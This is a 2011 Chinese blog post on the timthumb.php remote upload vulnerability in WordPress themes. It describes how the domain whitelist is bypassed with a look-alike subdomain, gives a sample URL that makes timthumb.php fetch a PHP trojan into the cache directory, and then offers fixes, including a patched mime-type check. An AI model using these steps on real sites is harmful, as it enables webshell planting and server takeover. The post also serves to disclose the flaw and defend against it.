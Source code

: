 ```yaml
---
title: 110804 请小心 timthumb.php
layout: post
permalink: /2205.html
bot_views:
  - 269
views:
  - 1203
post_views_count:
  - 0
ratings_users:
  - 0
ratings_score:
  - 0
duoshuo_thread_id:
  - 1280248249638191298
categories:
  - Code
tags:
  - loper1.2
  - timthumb.php
  - wordpress
  - 上传漏洞
---
```

[<img class="aligncenter size-medium wp-image-2206" title="uploadld" src="http://www.80aj.com/wp-content/uploads/2011/08/uploadld-300x187.jpg" alt="" width="300" height="187" />][1]

今天早上 CNBETA爆出了 wordpress 的  谷歌写的  timthumb.php 上传漏洞

我分析了下 入侵规则如下:

<pre dir="ltr">0 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'flickr.com'</span> <em>(length=10)</em>
  1 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'picasa.com'</span> <em>(length=10)</em>
  2 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'blogger.com'</span> <em>(length=11)</em>
  3 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'wordpress.com'</span> <em>(length=13)</em>
  4 <span style="color: #888a85;">=&gt;</span></pre>

<small>string</small>

<pre dir="ltr"><span style="color: #cc0000;">'img.youtube.com'</span> <em>(length=15)</em></pre>

<pre dir="ltr"></pre>

以上文件是timthumb.php 支持 图片的下载地址 或者 ALLOW_EXTERNAL 为TRUE 都会被跳过域名检查.

漏洞利用:

创建一个域名 http://flickr.com.80aj.com/

目录下上传 80aj.php

寻找有 timthumb.php 的主题或者插件包

这里只提供一个  关于  loper1.2 主题包 中就自带 timthumb.php文件  
使用如下URL上传木马:

http://www.*.com/wp-content/themes/loper1.2/timthumb.php?src=http://flickr.com.80aj.com/80aj.php

上传完以后访问:

http://www.*.com/wp-content/themes/loper1.2/cache/

寻找刚才上传的文件 直接访问即可.

修复方法:  
cache 目录下创建 index.html 或者 php  
进制 cache目录执行PHP相关代码  
代码后缀过滤 ,虽然代码中过滤了 进制上传的类型 但还是会下载下来

timthumb.php 相关强制关闭

<pre lang="php">/**
 * determine the file mime type
 *
 * @param  $file
 * @return
 */
function mime_type ($file) {

	$file_infos = getimagesize ($file);
	$mime_type = $file_infos['mime'];

    // use mime_type to determine mime type
    if (!preg_match ("/jpg|jpeg|gif|png/i", $mime_type)) {
		display_error ('Invalid src mime type: ' . $mime_type);
		echo "sorry ,error src type";
		exit();
    }

    return $mime_type;

}</pre>

timthumb.php相关新闻:

http://www.cnbeta.com/articles/150685.htm

 [1]: http://www.80aj.com/wp-content/uploads/2011/08/uploadld.jpg